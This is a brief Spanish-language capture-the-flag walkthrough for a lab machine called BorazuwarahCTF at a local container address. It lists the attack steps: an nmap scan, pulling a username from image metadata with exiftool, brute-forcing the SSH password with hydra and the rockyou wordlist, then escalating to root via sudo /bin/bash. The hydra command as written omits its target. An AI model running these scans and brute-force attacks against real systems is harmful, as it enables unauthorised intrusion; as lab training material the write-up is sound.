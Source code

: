 Maquina: BorazuwarahCTF

Autor: BorazuwarahCTF

Dificultad: Muy Facil


ping 172.17.0.2 -c 1


sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv 


Visitamos la pagina web 
https://172.17.0.2


nos descargamos la imagen
usamos la herramienta exiftool
sudo exiftool imagen.jpeg
encontramos el usuario


sudo hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt.gz
obtenemos la contraseña y entramos por ssh


ssh borazuwarah@172.17.0.2


sudo -l
sudo /bin/bash
whoami


